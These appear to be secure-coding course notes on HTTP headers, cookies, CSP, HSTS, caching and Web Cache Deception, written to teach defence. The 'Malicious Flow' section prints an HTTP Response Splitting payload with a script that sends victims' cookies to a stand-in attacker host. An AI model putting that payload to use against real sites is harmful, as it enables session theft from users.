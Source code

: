 Non-HTTP protocol related vulnerabilites:
* XSS
* Clickjacking
* Man-in-The-Middle

HTTP is a stateless application level protocol for distributed, collaborative, hypertext information systems.

Working OSI (Open Systems Interconnection) Model:
1. Physical Layer
2. Data Link Layer
3. Network Layer
4. Transport Layer
5. Session Layer
6. Presentation Layer
7. Application Layer

### Sample GET Request
```
GET /courses HTTP/1.1  
Host: codebashing.com 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.84 Safari/537.36 
Referer: https://codebashing.com/
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ru;q=0.8 
Cache-Control: max-age=0  
Upgrade-Insecure-Requests: 1
Connection: close
```
* GET is an HTTP verb used to retrieve data from a server
* `/courses` is a path where the desired data resides
* `HTTP/1.1` is the HTTP protocol version that is used for communication
* `HOST` header specifies the requested hostname (authority part of the URL).
* `User-Agent` header describes the software used to make a request.
* `Referer` header contains a previous page visited by the user.
* `Accept` and `Accept-*` headers specify the type of the content, language, encoding, etc. that a client understands
* `Cache-control` header defines cache mechanism behavior
* `Upgrade-Insecure-Requests` header shows to the server that the client prefers encrypted communications
* `Connection` header defines whether the network connection should stay open

### Sample GET Response
```
HTTP/1.1 200 OK 
Content-Type: text/html; charset=utf-8 
Server: nginx/1.11.9 
X-Frame-Options: ALLOW-FROM https://academy.checkmarx.net 
ETag: W/"8ca5dd4f507a4295e629491c" 
Cache-Control: max-age=0, private, must-revalidate
Set-Cookie: trackingCookie=user1357272
X-Request-Id: 295e586f-7cab-4530-b5cb-1c 
X-Runtime: 0.2243 
Connection: close 
Content-Length: 8576 
<!DOCTYPE html> 
<-- Web Page content -->
```
* `Content-Type` header defines the type of content that resides in the response body
* `Server` header describes the software that is running on the server side
* `X-Frame-Options` defines domains that can open pages from the current domain in the or similar HTML tags
* `ETag` and `Cache-Control` headers are used to manage caching.
* `Set-Cookie` header instructs the user-agent to save header directives as cookies.
* `X-Request-Id` and `X-Runtime` are custom headers that are specific to the application or environment where the application is hosted.
* `Connection` header defines whether the network connection should stay open.
* `Content-Length` defines the length of the response body.

### Sample POST Request
```
POST /login HTTP/1.1  
Host: www.lotsofgoods.me 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.84 Safari/537.36  
Referer: https://codebashing.com/
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9  
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded  
Connection: close
Content-Length: 46  
login=alice&password=correcthorsebatterystaple
```
* `POST` is an HTTP verb used to send data to the server and change the application state
* `/login` is the URL path

### Sample HTTP POST Response
```
HTTP/1.1 200 OK 
Content-Type: text/html; charset=utf-8 
Server: nginx/1.11.9 
ETag: W/"d18a59b032422092a1daaccd9b46bbf4" 
Cache-Control: max-age=0, private, must-revalidate 
Set-Cookie: sessionid=26161af57b9de30f9b67d16be83700113f8742a136c26d3d2e90b677b85934fe   
Connection: close 
Content-Length: 1467 
<!DOCTYPE html> 
<-- Web Page content -->
```

### HTTP Security Headers
Once implemented, HTTP security headers restrict modern browsers from running into easily preventable vulnerabilities. They also provide yet another, additional layer of security by helping to mitigate security vulnerabilities and prevent attacks (like XSS, Clickjacking, information leakage, etc.). But it is important to mention that HTTP security headers are not intended to replace proper, secure code.
```
HTTP/1.1 200 OK
Date: Thu, 21 Mar 2019 09:05:07 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 0
Connection: close
Cache-Control: max-age=600
Content-Security-Policy: script-src 'self' *.codebashing.com 'unsafe-inline' 'unsafe-eval'  www.google-analytics.com; img-src 'self' *.codebashing.com
Expires: Thu, 21 Mar 2019 09:15:06 GMT
Location: https://codebashing.com
strict-transport-security: max-age=31536000
Vary: Accept-Language, Accept-Encoding
x-content-type-options: nosniff
X-Frame-Options: DENY
X-Robots-Tag: noodp
x-xss-protection: 1; mode=block
```

HTTP Strict Transport Security (HSTS) is a mechanism that prevents user-agents (a browser or any kind of program designed for communication with a particular server) from browsing a website via an unencrypted connection in case an encrypted connection can be established, and only using a trusted certificate.

If the request is communicated through an unencrypted channel, it can be captured and tampered with by an attacker. The attacker then can steal or modify any information transmitted between the client and the server or redirect the user to a phishing website. So, the first goal of HSTS is to ensure traffic is encrypted, so it instructs the browser to always use HTTPS instead of HTTP.

Usually, browsers allow users to ignore TLS errors and continue browsing potentially insecure websites. With HSTS enabled, the user will be unable to skip the browser warning and continue. The second important goal of HSTS is to make sure that the traffic is encrypted using a trusted and valid certificate.

### HTTP STRICT TRANSPORT SECURITY
When HSTS response header signals the browser that the certain domain must be requested only using HTTPS, the browser saves this domain to the HSTS list and keeps it there for the timeframe specified in max-age directive of the Strict-Transport-Security header.
There are two cases when HSTS doesn't provide proper protection:
* when the user hasn't browsed to the website before and is making his very first request to this website over HTTP,
* when existing HSTS data has already expired.

To resolve this, it is possible to have a domain included in the HSTS preload list which arrives baked into most modern browsers.

### X-XSS-PROTECTION
Some modern browsers have built-in XSS protection mechanisms that can be used as an additional layer of security against Reflected XSS. The main problem with that is that all of the browsers implement built-in XSS filtering differently, so to add more control to the process and make sure that the loading of a page with the malicious content will be blocked, the X-XSS-Protection header is needed.

X-XSS-Protection header is an optional HTTP header that performs XSS filtering by defining the anti-XSS mechanism behavior: from sanitizing the page by blocking injected Javascript to preventing page rendering and reporting the violation.

By default, browsers that support XSS filtering have it enabled. Though it can be disabled, this is considered a bad practice; often, if an application requires XSS protection to be disabled in order to function properly, it is an indication that the application is quite likely vulnerable to XSS.

Please note that only using the X-XSS-Protection header will not protect your application from XSS, but this header will make an important input in your defense-in-depth strategy and make it more robust.

### X-FRAME-OPTIONS
X-Frame-Options header a defines if the webpage can be rendered inside an <iframe>, <frame>, <applet>, <embed> or <object> tags. Depending on the directive, this header either specifies the list of domains that can embed the webpage, or allows the page to be embedded only inside pages of the same origin, or totally prohibits embedding of a webpage.

The main purpose of the X-Frame-Options header is to protect against Clickjacking. Clickjacking is an attack when the vulnerable page is loaded in a frame inside the malicious page, and the users are tricked into interaction with buttons and other clickable UI elements (e.g. unknowingly clicking "likes" or downloading malicious files) of a vulnerable page without their knowledge.

(Note that setting X-Frame-Options with <meta> HTML tag inside a webpage doesn't work. Use HTTP headers to set it.)

In the right pane, you can see a screenshot of the webpage where the content of another page was denied to be displayed in a frame because the X-Frame-Options header disallowed the browser from doing so with a deny directive.

### X-FRAME-OPTIONS AND CONTENT-SECURITY-POLICY
X-Frame-Options is also covered by Content-Security-Policy (CSP). CSP is a suite of headers with security directives for multiple uses (which will be covered in their own lesson). Among these security directives is the frame-ancestorsdirective which pursues the same goal as the X-Frame-Options header. The main difference between them is the implementation of the SAMEORIGIN directive of the X-Frame-Options header.

Various user-agents interpret SAMEORIGIN directive in a different way, and some of them only check the top-level domain. Whereas with the CSP's frame-ancestors directive, the whole chain of origins is checked. (The example of the chain of origins is an iframe inside an iframe, inside an iframe, and so on.)

The CSP W3C recommendation states that with the CSP frame-ancestors directive being introduced, the X-Frame-Options header becomes obsolete. Thus CSP should be used to prevent Clickjacking in the first place and the X-Frame-Options header should be used for backward compatibility with browsers that don't support this CSP directive.

### HTTP Version
When HTTP v1.1 is used in HTTP requests, it presents them in a human-readable format. HTTP v2 requests are binary and require special tools to be read. The main difference between v1.1. and v2 is the way requests and responses are transmitted: HTTP2 is aimed at decreasing the time required for data transfer.

```
GET /courses HTTP/1.1
Host: codebashing.com 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.84 Safari/537.36 
Origin: https://codebashing.com    
Referer: https://codebashing.com/dashboard
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ru;q=0.8 
Cache-Control: max-age=0  
Upgrade-Insecure-Requests: 1
Cookie: sessionid=b3cd288f3e3d499ca8e45fbae696f7b5  
Connection: close
```

```
HTTP/1.1 200 OK 
Date: Sat, 08 March 2019 12:33:14 GMT
Server: nginx/1.11.9 
X-Frame-Options: ALLOW-FROM https://academy.checkmarx.net 
ETag: W/"8ca5dd4f507a4295e629491c" 
Cache-Control: max-age=0, private, must-revalidate 
Set-Cookie: trackingCookie=user135727
X-Request-Id: 295e586f-7cab-4530-b5cb-1c 
X-Runtime: 0.2243 
Connection: close 
Content-Type: text/html; charset=utf-8 
Content-Length: 8576 
<!DOCTYPE html> 
<-- Web Page content -->
```

### HTTP Request Methods
In HTTP v1.1 and v2 the following methods are used for different purposes: GET, POST, HEAD, PUT, DELETE, CONNECT, OPTIONS, TRACE, PATCH.

The most used of them are GET and POST methods.

GET method is used to retrieve data from a server. GET requests are read-only (according to the HTTP RFC, they should not change the application state but in real life they sometimes do) and do not have a body.

POST requests are used to change the application state and have a body.

Using GET for state-changing operations can lead to CSRF and information disclosure. First, because GET request doesn’t have a body, all the information is sent in an URL, and the URL can be disclosed in intermediate devices. Second, for POST requests, there is built-in protection against CSRF in all modern frameworks, but for GET requests, it depends on the framework, whether or not it has built-in CSRF protection for them.

Description of other HTTP methods could be found under the following links:

https://tools.ietf.org/html/rfc7231 and https://tools.ietf.org/html/rfc5789

```
POST /login HTTP/1.1  
Host: lotsofgoods.me 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.84 Safari/537.36  
Origin: https://codebashing.com    
Referer: https://codebashing.com/courses
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9  
Upgrade-Insecure-Requests: 1
Cookie: sessionid=55fc9da99a9d425c8ec8c597fd5bec61
Content-Type: application/x-www-form-urlencoded  
Content-Length: 46    
Connection: close
login=alice&password=correcthorsebatterystaple  
```

```
GET /courses HTTP/1.1
Host: codebashing.com 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.84 Safari/537.36 
Origin: https://codebashing.com    
Referer: https://codebashing.com/dashboard
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ru;q=0.8 
Cache-Control: max-age=0  
Upgrade-Insecure-Requests: 1
Cookie:sessionid=b3cd288f3e3d499ca8e45fbae696f7b5  
Connection: close
```

### URL Structure
URLs are used to locate resources on the Internet. Let’s take a look at the URL structure that is used with HTTP (for other protocols, URL format may differ).
`scheme://authority/path?query#fragment`

### Get Request Headers
In HTTP requests and responses, the following types of headers are used:
* Request
* Response
* Entity
* General
* Custom application defined
The complete list of HTTP headers can be found in HTTP RFCs.

### Host
This header is used to route through the different applications hosted on the same IP address. Note that the Host header is completely under the user control (so, do not use its value for security checks).

### User-Agent
This header is used by the server to define the user's client application and to serve the correct version of the requested web page. This header can be easily manipulated (e.g. some browser plug-in could change user-agent to an arbitrary value), so it shouldn't be used for security checks.

### Referer
This header shows the address of the previous web page where the user clicked the link to the requested page. Referer header contains the full URL of the previous page, so if there is sensitive data in that URL, then it could be disclosed through this header. Referer header is completely under the user control, so do not use its value for security checks.

### Accept, Accept-*
This group of headers defines what encoding, language, content type the client can understand.

### Upgrade-Insecure-Requests
This header sends a signal to the server expressing the client’s preference for an encrypted and authenticated response.

### Connection
This header controls whether or not the network connection stays open after the current transaction finishes.

### HTTP Cookies
An HTTP cookie is a small piece of data that a server sends to a client. The server sends the cookie using the Set-Cookie header in the response. It looks like that:

Set-Cookie: trackingCookie=user1357272

User-agent saves a cookie from the response and sends it back in the Cookie request header like that:

Cookie: trackingCookie=user1357272

Cookies are used for the following purposes:

1. Session management

HTTP is a stateless protocol meaning that two requests cannot be correlated to the same source or to each other even if they are sent from the same IP address and contain the same user-agent. In other words, without some additional information, the server is not able to understand that two requests were sent consequently by the same user.

To keep the flow of all the user's requests, session identifiers are used. Usually, a session identifier resides in a cookie and is sent with every request in the Cookie header. Thus the server can track all actions the user makes, display him the right interface, and send responses with correct data

2. Personalization

Sometimes cookies are used to store user preferences and non-sensitive application data.

3. Tracking

Nowadays many companies try to understand their users' behavior and track all the actions users make. Cookies can be used for this purpose as they can persist in the browser, until cleared, and can be tied to the user behavior, even if the user is not authenticated.

### Response Status Codes
And now let us look at the response. Near the HTTP version, we can see the response code (200 OK in our example).

There are five groups of response status codes with the corresponding status message. Let us review these groups and look at the most popular status codes.

Successful responses

200 – OK

This status shows that the request has succeeded. Either the desired information exists on the server and is transmitted in the response body, or the desired application state change has been performed successfully.

Redirection responses

301 – Moved permanently

The status means that the desired resource resides at another location (which is usually specified in the Location header of the response).

302 – Found

The status also means that the desired page has been moved and a new location is specified in the Location header of the response. But in this case, the page has been moved temporarily.

304 – Not Modified

This code is used to instruct the browser to used cached data because it hasn’t changed since the previous request.

Client error responses

400 – Bad Request

This status means that the request syntax is invalid and the server was not able to process it.

401 – Unauthorized

This status means that the requested resource requires a client to be authenticated.

403 – Forbidden

This status means that the authenticated user does not have permissions to access the requested resource.

404 – Not Found

This code shows that the requested resource does not exist on the server.

Server error responses

500 – Internal Server Error

This code means that the request syntax is correct, but the server could not prepare a response for the request due to an exception thrown by the application code.


### HTTP Headers that are misused for security purposes
You should NEVER use the following headers in implementations of security mechanisms:
Host
Referer

### Content-Type Header
The Content-Type header is not actually a security header, and content type validation cannot be treated as a standalone security mechanism. But it is definitely an important part of the defense-in-depth strategy.

By setting Content-Type in request and response headers, the programmer can manipulate the way the server will interpret the body of the corresponding HTTP request or response. If the server doesn't check the content header value, it leaves a possibility for an attacker to manipulate the application's behavior by tampering with the Content-Type header content.

In the right pane, there is an example of a JQuery vulnerability that is based on the missing Content-type header.

In versions prior to 3.0.0, JQuery automatically evaluates the response body if response Content-Type header is text/javascript for cross-domain requests.

If the datatype is not specified in $.get(), then the method doesn’t wait for a specific type of content and processes any kind of content received in response. If the content is javascript, it is automatically evaluated.

The vulnerability was mitigated by implementing content type validation: if an application does not expect javascript in the response, then it is not executed.

### X-CONTENT-TYPE-OPTIONS
When the user agent (usually, a browser) is trying to guess the content type, it is called MIME sniffing. This feature can be abused by an attacker and the browser can be tricked into interpreting malicious data, for example, in an XSS attack.

In HTTP response, there is an X-Content-Type-Options header that has a single nosniff directive. It indicates that the user agent should not perform MIME sniffing and should treat the body content as the content of the type specified in the Content-Type header.

X-Content-Type-Options is also not a security header, but together with Content-Type, they make a valuable input into the defense-in-depth strategy. Don't let the user agent guess the content type, because missing content type check can lead to the execution of content that should not be executed, or to a security controls bypass. 

### Referer
Referer header contains the address of the webpage that sent the HTTP request. It's is set by the browser and cannot be set using Javascript.

The major security considerations about the Referer header is that even though it's set by the browser and cannot be manipulated using the Javascript, the header content must not be used for making security-related and business logic-related decisions. It can be manipulated by an attacker as any other part of the HTTP request, thus making all the security mechanisms based on the Referer header check flawed by design.

### REFERER AND REFERER-POLICY HEADERS
The Referer header usually contains the full URL of the page that initiated the request. If the URL contains sensitive data, then ordinary legitimate requests to analytical systems or image storages disclose that data from the URL. To prevent this, one must avoid storing sensitive data in the URL and use Referrer-Policy header, rel or referrerpolicy HTML tag attributes.

The Referrer-Policy header instructs user agents which referrer information, sent in the Referer header, should be added to the request. In other words, Referrer-Policy is an additional control that ensures that sensitive data doesn't leak from the Referer header.

HTML tag attributes enable similar behavior but apply it to a specific tag.

### Host
The Host header specifies which website or a web application hosted on the same web server (with the same IP address) should process an incoming HTTP request. It contains the domain name of the server, and (optionally) the TCP port number on which the server is listening. This header is set by the browser and cannot be modified using Javascript.

Even though Host header is set by browsers and cannot be manipulated using Javascript, its content must not be used for making security-related and business logic-related decisions. The header content (as any other part of the HTTP request) can be manipulated by an attacker, and that makes mechanisms based on the Host header check flawed by design.

In the right pane, you can see an example of a business logic-related decision that relies on the information from the Host header of the incoming request.

### Malicious Flow
Bob is a hacker. While he was scanning the application for vulnerabilities, he noticed that the server puts the location information in the cookie as is. If the location value is not sanitized, then this looks like a great chance to perform the HTTP Response Splitting attack.
Bob crafts the malicious payload that will trick the server into sending the page that contains a cookie-stealing script:
Cyberville\r\nContent-length: 113\r\n\r\n<script>document.write("<img src='https://www.bobsevilserver.com/catch?cookie="+document.cookie+" '/>");</script>
Then he puts it into the intercepted GET request instead of the legitimate payload.

HTTP Response Splitting was used to trick the server into returning the malicious payload as a legitimate webpage in the response. This is achieved by using \r\n combination of symbols to make the server interpret it as a line break and to insert the malicious page content over the legitimate one.

Cache Poisoning happened when that malicious response was saved in cache and then served to users in response to their ordinary requests.

In the right pane, there are two examples of how the \r\n combination can be used to:

insert an arbitrary custom header (e.g. to bypass some security control)
insert a new Content-Length header and a response body for the XSS or defacement attack
Each time you develop some new request parsing logic on your web server, make sure you filter out \r\n combination of symbols (or each of them separately) to prevent HTTP Response Splitting.

### CSP
Content-Security-Policy (CSP) is a special HTTP response header that tells the browser what are the safe sources of the content for the page it is going to load.

When those safe sources are specified, it prevents the hacker from tricking the browser into loading and running malicious scripts in the user’s browser, injecting iframes with some malicious or unauthorized content, displaying fake images or basically injecting anything from a remote untrusted domain.

CSP can also be used to ensure that all the content is loaded via HTTPS, and it also prevents Clickjacking by instructing the browser that it shouldn't allow the certain page to be loaded in an iframe.

```http
Content-Security-Policy: script-src 'strict-dynamic' 'nonce-RandomValue' 'unsafe-inline' http: https:https://codebashing.com; object-src 'none';
```

What this policy does:

It allows all scripts that have the RandomValue nonce specified and propagates the trust to all the scripts loaded by these scripts;

It will ignore scripts from https://codebashing.com unless they have the nonce specified;

It specifies the schemas that may be used to retrieve the scripts: http or https;

It disallows objects that can be used to execute JavaScript like <object >, <embed > or <applet > tags.

### CSP Precautions
As we've just learned, Content-Security-Policy header instructs the browser which sources of scripts (and other content) are trusted, and the browser runs only those scripts that were taken from those trusted sources and ignores all the inline scripts and HTML event attributes (unless it's instructed otherwise).

It is important to emphasize:

CSP doesn't prevent the injection of malicious scripts itself. Those scripts can be injected by some hacker. But they will not run, because CSP will instruct the browser to execute only the scripts taken from the trusted sources specified in the policy.

So CSP shouldn’t be used as the only security control to prevent XSS or injection of malicious content. It should be used as a part of the defense-in-depth strategy against XSS and other vulnerabilities.

```http
Content-Security-Policy: script-src https://codebashing.com unsafe-inline' 'unsafe-eval'; img-src * ; default-src 'self'
```

What does this policy do?

It allows scripts loaded from https://codebashing.com

It allows script from inline resources

It allows usage of eval() and similar unsafe JavaScript methods

It allows images from any source

When the type of content is not specified, it falls back to the default policy that allows content loaded from the current origin.

### CSP CONFIGURATION NOTES
It is important to mention that the Content Security Policy must be thoroughly tested prior to the implementation in the production environment. CSP misconfiguration can easily break the application's functionality and ruin the user experience.

A misconfigured CSP is likely to be loosened or turned off, and a loosened CSP in most cases is as insecure as a missing CSP.

### CSP VERSIONS
CSP is constantly evolving. The current version of CSP is "level 2". "Level 3" version of it exists but it is still in a draft, nevertheless modern browsers support most of it. (CSP header can be not compatible with old browsers. Browsers that don’t support CSP just ignore the CSP header.)

### CSP DIRECTIVES TYPE: FETCH
This set of directives controls locations used to load different types of resources.

Please note that in order to mitigate XSS, you should define either default-src and script-src directives or object-src and script-src directives.

The default-src directive defines a default source of content for the webpage. It is used as a fallback when a specific directive is not defined. All fetch directives fall back to default-src if they are not defined.

This directive defines sources for <object>, <embed> and <applet> tags. Note that using these tags allows for arbitrary javascript execution, so it must be included into the policy in order to prevent XSS.

This directive defines sources of JavaScript like <script>, javascript:, eval(), etc.

It should be configured carefully because misconfiguration usually leaves an opportunity to bypass CSP.

The directive allows more granular configuration using keywords. Note that these keywords turn off some security features leaving CSP bypassable.

This directive is deprecated in CSP Level 3. Usage of frame-src and worker-src is recommended instead.

The directive defines sources for web workers and nested browsing contexts loaded using <iframe> or <frame> tags.

The directive restricts usage of XMLHttpRequests, Fetch, WebSockets, EventSource and <a ping=”URL”>, only the URLs specified in the policy can be loaded using methods mentioned previously.

frame-src

The directive specifies valid sources for nested browsing context using <iframe> or <frame>.


font-src

The directive specifies sources of fonts.

img-src

The directive specifies sources of images.

manifest-src

The directive specifies sources of a web application manifest.


media-src

The directive specifies sources of media loaded in <audio> or <video> tags.

prefetch-src

The directive specifies the URL from which resources can be prefetched or pre-rendered.

style-src

The directive specifies sources of style sheets.

worker-src

The directive specifies sources of web workers.


unsafe-inline

Without this keyword, CSP will trust only scripts loaded from the specified resources. It won't permit inline scripts residing on the webpage between <script>, <style> tags, in javascript: and event handlers.

This keyword allows inline script sources and thus removes the protection against XSS that CSP provides.

If there is no possible way to avoid using inline javascript, then nonce or hash source should be used.


unsafe-eval

This keyword allows usage of functions that evaluate code presented as a string, e.g. eval(), Function(), etc.

strict-dynamic

This keyword is used with a nonce or hash source, e.g. script-src ‘strict-dynamic’ ‘nonce-RandomValue’ or script-src ‘strict-dynamic’ ‘sha-256-base64EncodedHash’.

The nonce received in the header should be a part of <script>, e.g. <script nonce=”RandomValue” src=”script URL”>, thus the browser understands that this script is trusted and can be executed.

The hash received in the header is the base64 representation of a sha256 (384 or 512) hash of the script.

default-src

The default-src directive defines a default source of content for the webpage. It is used as a fallback when a specific directive is not defined. All fetch directives fall back to default-src if they are not defined.

object-src

This directive defines sources for <object>, <embed> and <applet> tags. Note that using these tags allows for arbitrary javascript execution, so it must be included into the policy in order to prevent XSS.


script-src

This directive defines sources of JavaScript like <script>, javascript:, eval(), etc.

It should be configured carefully because misconfiguration usually leaves an opportunity to bypass CSP.

The directive allows more granular configuration using keywords. Note that these keywords turn off some security features leaving CSP bypassable.


child-src

This directive is deprecated in CSP Level 3. Usage of frame-src and worker-src is recommended instead.

The directive defines sources for web workers and nested browsing contexts loaded using <iframe> or <frame> tags.


connect-src

The directive restricts usage of XMLHttpRequests, Fetch, WebSockets, EventSource and <a ping=”URL”>, only the URLs specified in the policy can be loaded using methods mentioned previously.

### CSP DIRECTIVES TYPE: DOCUMENT
These directives control the properties of a document or worker environment to which a content security policy applies.

In the right pane, click the directive you want to explore, and the description will appear instantly.

base-uri

The directive restricts the URLs that can be used in <base> element which defines the base URLs to be prepended to relative URLs used in the page.

plugin-types

The directives defines types of plug-ins used in <embed>, <object>, <applet> tags, e.g. flash objects or java applets.

sandbox

The directive applies a sandbox attribute to the current page. It behaves like a sandbox attribute used in <iframe> allowing to restrict execution of scripts and plug-ins, block pop-ups, etc.


disown-opener

The directive instructs a browser to set window.opener object to null when the user is navigated from a CSP-protected page to a new tab or window. Check out the Reverse Tabnabbing lesson to understand what purpose this directive serves.

Note that the directive is not finalized; alternative security controls should be used.

### CSP DIRECTIVES TYPE: NAVIGATION
These directives restrict URLs that are used to navigate the user from the current page using different HTML tags.

form-action

The directive specifies the URLs that can be used as targets of form submission, e.g. targetURL in <form action=”targetURL” method=”post”>.


frame-ancestors

The directive specifies sources that may open the page in <iframe>, <frame>, <applet>, <object> and <embed> tags.

The directive partially overlaps with the X-FRAME-OPTIONS HTTP header and serves the same purpose.

Check Clickjacking lesson to learn more about X_FRAME_OPTIONS and frame-ancestors.

navigate-to

The directive restricts the URLs to which document can initiate navigation using any navigation means.

Note that the directive is a part of CSP level 3, thus it is not published yet. There also can be support issues among browsers.

### CSP DIRECTIVES TYPE: REPORTING
To make the CSP configuration process easier, one can use a reporting functionality that is built into the CSP (it works according to the reporting API specification at https://w3c.github.io/reporting/).

Location of report collection service can be set using report-to or report-uri directives. Also, CSP has a report-only mode that should be used for testing CSP settings. The report-only mode is activated by using Content-Security-Policy-Report-Only header.

report-to

This directive specifies a reporting group that should be used to send reports. Reporting groups are set in Report-To response header. Reporting group is created according to the reporting API (https://w3c.github.io/reporting/).

report-uri

This directive specifies the URL that the user-agent should use to report CSP violation.

Note that this directive is deprecated in CSP level 3 and the usage of Report-To is recommended.

Currently, Report-To is not widely supported by browsers, thus the usage of both directives is recommended for the backward compatibility. If Report-To is presented and supported by the browser, then report-uri directive is ignored.

### CSP DIRECTIVES TYPE: OTHER
block-all-mixed-content

This directive prevents loading of any page components via HTTP if the page is loaded via HTTPS.


require-sri-for

This directive makes subresource integrity (SRI) usage mandatory for scripts or/and style sheets. For example, SRI allows to specify a loaded script hash and to check that script hasn’t changed.


upgrade-insecure-requests

This directive instructs the user-agent to upgrade non-navigational requests from HTTP to HTTPS.

### CSP TIPS
So, how to configure the effective Content Security Policy? We have some tips for you:

1. CSP should restrict at least sources of scripts and objects.

2. Use a whitelist of specific scripts containing the nonce specified in the policy or compare the script hash with the hash specified in the policy.

3. Avoid using unsafe-inline and unsafe-eval or at least use them with a nonce or a hash.

4. Test your policy before going to production.

5. Use CSP only in the report-only mode for a pilot run on production.

### Web Cache Deception
Web Cache Deception is another technique for attacking caches. It's different from the HTTP Cache Poisoning attack because no tainted data is saved in the cache and then served to users (which is what Cache Poisoning implies). During the Web Cache Deception attack, a malicious user gains unauthorized access to sensitive data of another user by exploiting ordinary cache behavior.

The following conditions should be met for the attack to succeed:

1. The web server returns the contents of the "root" page (https://codebashing.com/home/) when a nonexistent static file (like https://codebashing.com/home/somecss.css) is requested. (In other words, the URL is rewritten from route /home/somecss.css to /home/.)

2. Web cache disregards HTTP headers that define caching behavior and relies on file extensions (in our example - a CSS file).

3. A victim is authenticated while accessing a malicious URL.

The vulnerable application pane loads the online shopping application LotsOfGoods.me. It aggregates data from multiple off-line shops and presents it on a single platform. The user can buy goods from all those sellers right from the application.

So, let us quickly recap what had happened during the attack.

1. Bob lured the authenticated user (Alice) on a page with a nonexistent static resource (a CSS file in our case: https://lotsofgoods.me/myaccount/profile/revieworder.css).

2. The web server returned the contents of https://lotsofgoods.me/myaccount/profile/ page ignoring the filename and its extension.

3. Web cache disregarded HTTP headers that define caching behavior and cached the returned page (with all sensitive data of the logged on user) as a static file, based on its extension.

4. As a result, a subsequent request of the attacker to the https://lotsofgoods.me/myaccount/profile/revieworder.css showed the response for https://lotsofgoods.me/myaccount/profile/ with user's sensitive data.

To prevent Web Cache Deception, make sure the following conditions are met:

1. Only static content is cached, and it is separated from the rest of the content.

2. In case a non-existent page (or file) is requested, 404 page is returned or a redirect to the home page is performed using the HTTP 302 response code.

3. Caching directives from HTTP headers are taken into consideration and not ignored.


### HTTP CACHING
Caching is a mechanism designed to decrease the server load and speed up the loading of web pages. A cache saves copies of server responses and serves them to users upon their repeating requests.

The cache can operate locally in the user’s browser, or there are also intermediate caches: caching proxies, load balancers, CDNs, web servers. Our lesson is devoted specifically to intermediate caches.

In case of a browser cache, when a user requests some data, the browser first checks if the requested data is cached and not expired, then the cache serves the user the cached version of data. In case of an intermediate cache, the same logic is applied: first, the cache checks if the requested data is saved and not expired, and then serves it to users. It also allows serving data when the server is down.

Usually static content like images, stylesheets, or scripts is cached.

### CACHING HEADERS
Also, every cache provider has its own caching preferences and capabilities. To enable them, custom headers (that are specific to a certain cache provider) can be used. Those custom headers start with "X-" (like "X-Some-Header").

These headers are not a part of the HTTP standard and thus can be treated differently by different software.

Cache-Control

This general header defines the behavior of caching mechanisms through directives. Directives allow disabling of caching or fine-tuning of the caching behavior (e.g. specifying what kind of caching providers can cache the response, defining cache storage period, managing usage of the stale cache).

Pragma

This header with the no-cache directive is equal to the Cache-Control: no-cache header. It is used for the backward compatibility with HTTP/1.0 caching mechanisms. The header is not supported by some user agents, thus using Cache-Control header as a reliable caching mechanism is more preferable.

Age

This header specifies the number of seconds a response has been stored in an intermediate cache.

Expires

This header sets the date and time when the ached response becomes expired.

ETag and Precondition headers (If-*)

